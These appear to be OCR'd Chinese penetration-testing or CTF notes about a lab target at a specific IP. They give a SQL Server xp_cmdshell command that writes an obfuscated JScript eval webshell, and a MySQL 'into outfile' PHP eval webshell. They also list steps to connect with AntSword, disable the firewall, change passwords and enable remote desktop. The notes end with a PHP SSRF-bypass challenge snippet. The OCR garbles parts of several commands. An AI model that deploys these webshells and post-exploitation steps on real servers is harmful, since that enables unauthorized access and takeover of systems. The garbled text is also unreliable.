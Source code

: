 注意此时爆破的话还是会爆401错误，需要谨慎





sqlserver提权，写入小马

EXEC master. .XP_ cmdshell ' echo " <%@PAGE L .ANGUAGE=JSCRIPT%><%var
PAY :Str ing=Request ["\x61\x62\x63\x64"] ;eval(
PAY , "\x75\x6E\x73\x61"+"\x66\x65");%>" > "D:/ /web/ /11. aspx'

关3389写入注册表，此时我们用链接马上传bat比较方便





web:http://123.60.47.130:8125/

3389：http://123.60.47.130:8389

basic认证扫描目录  仅用burp。两次扫目录

扫到数据库连接

小心数据库passwd是两次md5加密，不要轻易修改passwd

百度搜，phpadmin中写马的思路

select @@basedir

利用intioutfile写入

select ' <?php eval($_ POST[cmd]); ?>' into qutfile ' C:/wamp/ ww/cc .php' ;

连入antsoward，注意401添加头

进入cmd虚拟终端，whoami，关闭防火墙，修改密码

net sh firewall 

netuser

上传3389开启bat

远程登陆

http://123.60.47.130:10015/

```php
<?php

/*
 * I stored flag.txt at baidu.com
 */
    *//
    @baidu.com/flag.txt
 //@符号做重定向
    
    file协议
show_source(__FILE__);

if(isset($_GET['url'])){  //检测变量是否已设置并且非 NULL
    $url = parse_url($_GET['url']); //解析一个 URL 并返回一个关联数组
    if(!$url){
        die('Can not parse url: '.$_GET['url']);
    }
    if(substr($_GET['url'], strlen('http://'), strlen('baidu.com')) === 'baidu.com'){
    if(substr($_GET['url'], 7, 9) === 'baidu.com')
        die('Hey, papi, you have to bypass this!');
    }
    if(
        $url['host'] === 'baidu.com'
    ){
        $ch = curl_init();
```